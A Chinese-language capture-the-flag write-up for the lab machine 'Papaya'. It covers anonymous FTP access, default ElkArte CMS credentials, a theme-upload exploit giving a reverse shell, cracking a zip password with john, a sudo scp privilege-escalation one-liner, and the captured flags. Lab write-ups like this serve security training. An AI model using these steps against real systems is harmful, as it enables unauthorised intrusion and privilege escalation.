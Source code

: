 # Papaya

2025.03.03 https://thehackerslabs.com/papaya/

[video](https://www.bilibili.com/video/BV1cw9qY1Enm/?spm_id_from=333.1387.collection.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

ftp 匿名登陆得到 secret.txt : ndhvabunlanqnpbñb

将 papaya.thl 添加到 hosts 文件，在访问主页，底部 ElkArte 1.1.9 ，尝试使用该 cms 的默认凭据进行登陆: admin:password

这里可以上传文件从而获得反弹 shell https://www.exploit-db.com/exploits/52026 添加新的 Theme

访问 http://papaya.thl/themes/8888/8888.php 获得反弹 shell。

发现数据库配置数据：

```
www-data@papaya:/var/www/html/elkarte$ cat Settings.php

$db_name = 'elkarte';
$db_user = 'elkarte';
$db_passwd = 'password';
```

在 /opt 中发现 pass.zip 有密码，john 爆出密码 jesica ， zip 解压后得到 papayarica 是 papaya 用户的密码，ssh 登陆到这个用户。

拿到 user flag：

```
papaya@papaya:~$ cat user.txt
c84145316c7a5f4574fe34e5164c3c83
```

sudo 显示 (root) NOPASSWD: /usr/bin/scp 进行提权：

```
TF=$(mktemp);echo 'sh 0<&2 1>&2' > $TF;chmod +x "$TF"
sudo scp -S $TF x y:
```

拿到 root flag：

```
# id
uid=0(root) gid=0(root) grupos=0(root)
# cd /root
# ls
root.txt
# cat root.txt
da4ac5feea7ff4ac9f3e0d842d76e271
```
